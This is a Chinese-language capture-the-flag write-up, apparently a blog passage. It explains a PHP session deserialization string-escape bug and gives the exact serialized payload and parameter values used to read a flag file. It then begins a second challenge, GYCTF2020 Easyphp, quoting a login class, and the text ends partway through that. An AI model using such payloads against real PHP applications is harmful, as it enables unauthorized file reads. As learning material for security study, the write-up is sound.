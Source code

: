 在 phpinfo 中发现了文件包含 d0g3_f1ag.php

可以看到在倒数第二行存在一个文件读取

读取的内容是 _SESSION['img'] 

同时存在一个变量覆盖及序列化数据的替换

首先默认的序列化数据是

```
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:14:"highlight_file";s:3:"img";s:20:"Z3Vlc3RfaW1nLnBuZw==";}
```

这里可以控制的部分是 user 和 function 的内容

于是要利用过滤，用 user 吃掉后面的

```
";s:8:"function";s:14:
```

之后在 function 的部分便可以写入数据控制后面的内容了

要吃掉的数据一共是22个，于是 user 的值为 phpphpphpphpphpphpflag

_SESSION[function] 的值为

```
;s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";s:3:"ccc";s:2:"ok";}
```

这里要保证数组内的个数相等，所以要传入两个值

再传入 f = show_image 即可查看文件

之后回显为

```
$flag = 'flag in /d0g3_fllllllag';
```

再次编码查看文件，获得 flag



**[GYCTF2020]Easyphp**

这个也是通过改变序列化字节造成的漏洞，和上一个减少不同，这个是增加字节长度

网站根目录下 www.zip 下载题目

先看这个存放类的 lib.php

在登录时用了 User 类的 login 方法

```
class User
{
    public $id;
    public $age=null;
    public $nickname=null;
    public function login() {
        if(isset($_POST['username'])&&isset($_POST['password'])){
        $mysqli=new dbCtrl();
        $this->id=$mysqli->login('select id,password from user where username=?');
        if($this->id){
        $_SESSION['id']=$this->id;
        $_SESSION['login']=1;
        echo "你的ID是".$_SESSION['id'];
        echo "你好！".$_SESSION['token'];
        echo "<script>window.location.href='./update.php'</script>";
        return $this->id;
        }
    }
}
```